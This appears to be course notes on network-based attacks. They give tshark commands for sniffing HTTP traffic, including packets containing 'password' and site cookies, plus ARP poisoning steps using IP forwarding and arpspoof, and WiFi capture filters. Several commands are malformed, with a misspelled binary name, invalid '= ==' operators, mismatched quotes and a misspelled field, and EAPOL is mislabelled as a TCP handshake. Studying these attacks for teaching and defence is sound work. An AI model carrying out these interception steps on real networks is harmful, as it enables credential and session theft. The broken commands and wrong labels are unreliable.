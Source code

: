 # Table of Contents

- [Overview](#1)
  - [What is a network based attack?](#1.1)
- [TShark](#2)
- [ARP Spoofing](#3)
- [WiFi Traffic analysis](#4)

<a id=1></a>
# Overview

We'll learn the following attacks:

- ARP poisoning
- MiTM attacks
- Packet analysis

<a id=1.1></a>
## What is a network based attack?

A network based attack is an attack that doesn't direct its attention to a particular operating system, but
rather on network protocols such as ARP, DNS, DHCP and more.

The main attack we will is discuss is Man in the Middle attacks. This kinds of attacks turn the attacker into
kind of like a proxy between two endpoints. In this course we will discuss ARP poisoning style MiTM attacks.

We can also use the promiscuous mode in a traffic capture application like Wireshark or Tshark. This will enable
us to listen to all packets in the network.

<a id=2></a>
# Tshark

```bash
$ tshark -i [INTERFACE] {-Y [PACKET FILTER] -f [CAPTURE FILTER] -w [OUTPUT FILE] -F [PCAP/PCAPNG] --color -r [PCAP/PCAPNG FILE] -z [STATISTIC] -q [PACKET COUNT]}
$ tshart -i eth1 -Y "http" # Only HTTP packets.
$ tshark -i eth1 -Y "http.request.method == GET" # Only show GET HTTP requests
$ tshark -i eth1 -Y "http.request.method == POST" -Tfields -e frame.time -e ip.src -e http.request.full_uri # Show POST requests and 
# show packet time, source IP and full URI
$ tshark -i eth1 -Y "http contains password" # Look for HTTP packets that contain the string 'password'
$ tshark -i eth1 -Y "http.request.method= == GET && http.host = google.com" # Shows only HTTP requests made to Google
$ tshark -i eth1 -Y "http.request.method= == GET && http.host = google.com" -Tfields -e ip.src # Shows only HTTP requests made to Google and IP source.
$ tshark -i eth1 -Y "http.request.method= == GET && http.host = amazon.com" -Tfields -e ip.src -e http.cookie # Shows only HTTP requests made to Amazon with cookies
```

<a id=3></a>
# ARP Poisoning

To do ARP poisoning, first we have to enable the IPv4 forwarding proc on Linux.

```bash
$ echo 1 > /proc/sys/net/ipv4/ip_forward
```

Now we can do some ARP poisoning.

```bash
$ arpspoof -i eth1 -t [SPOOF] -r [TARGET]
```

<a id=4></a>
# WiFi Traffic analysis

Check the video, not much to say :)

```bash
tshark -Y 'wlan' # only shows wlan packets
tshark -Y 'wlan.fc.type_subtype == 0x000c' # only show wlan deauthentication packets
tshark -Y 'wlan.fc.type_subtype == 0x000c' -Tfields -e wlan.ra # only show received deauth packets
tshark -Y 'wlan.ta == [MAC]' # show traffic from [MAC] address
tshark -Y 'eapol' # shows only tcp handshake (cafe latte attack)
tshark -Y 'wlan.fc.type_subtype == 8' -Tfields -e wlan.ssid -e wlan.bssid # show ssid and bssid 
tshark -Y 'wlan.ssid==FreeWifi" -Tfields -e wlan.bssid # Show bssid of specific ssid
tshark -Y 'wlan.ssid==FreeWifi" -Tfields -e wlan_radio.channel # Show on which channel SSID operates on
tshark -Y 'wlan.fixed.cappabilities.privacy == 0 # find open wifi
```
